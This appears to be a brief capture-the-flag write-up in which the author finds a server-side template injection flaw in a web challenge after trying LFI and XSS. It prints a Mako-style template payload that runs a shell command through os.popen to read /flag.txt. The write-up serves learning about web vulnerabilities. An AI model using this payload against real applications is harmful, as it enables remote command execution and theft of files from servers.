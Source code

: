 # solution

![alt text](image.png)<br>
i put some random strings and i saw this, Hmm let see the url.
![alt text](image-1.png)<br>
I try LFI, XSS, and finally i lucky trigger SSTI.
![alt text](image-2.png)<br>
Then i find some payloads in hacktrick and chatgpt and google.

```
${self.module.cache.util.os.popen('cat%20/flag.txt').read()}
```

![alt text](image-3.png)<br>
